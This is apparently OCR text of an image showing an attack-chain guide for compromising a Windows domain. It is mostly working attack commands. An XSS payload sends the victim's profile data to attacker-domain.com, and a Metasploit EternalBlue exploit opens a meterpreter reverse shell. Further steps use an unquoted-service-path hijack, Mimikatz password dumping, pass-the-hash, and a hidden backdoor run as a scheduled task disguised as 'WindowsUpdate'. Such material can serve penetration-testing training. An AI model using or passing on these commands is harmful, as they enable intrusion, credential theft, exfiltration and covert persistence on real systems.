 **Cross-Site Scripting (XSS)**
```javascript
// Reflected XSS payload
<script>
  fetch('/api/user/profile', {
    credentials: 'include'
  }).then(r => r.json()).then(data => {
    fetch('https://attacker-domain.com/exfil', {
      method: 'POST',
      body: JSON.stringify(data)
    });
  });
</script>
```

## Attack Chain: Complete Domain Compromise

### Step 1: Initial Access
```bash
# Exploiting EternalBlue vulnerability
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.50
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit
```

### Step 2: Privilege Escalation
```powershell
# PowerShell privilege escalation
Import-Module PowerUp
Invoke-AllChecks

# Exploiting unquoted service path
sc config "Vulnerable Service" binpath= "C:\temp\shell.exe"
net start "Vulnerable Service"
```

### Step 3: Lateral Movement
```bash
# Credential dumping with Mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords

# Pass-the-hash attack
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:hash //192.168.1.10 cmd
```

### Step 4: Persistence
```powershell
# Creating persistent backdoor
schtasks /create /tn "WindowsUpdate" /tr "powershell.exe -WindowStyle Hidden -File C:\temp\backdoor.ps1" /sc onlogon /ru SYSTEM
```
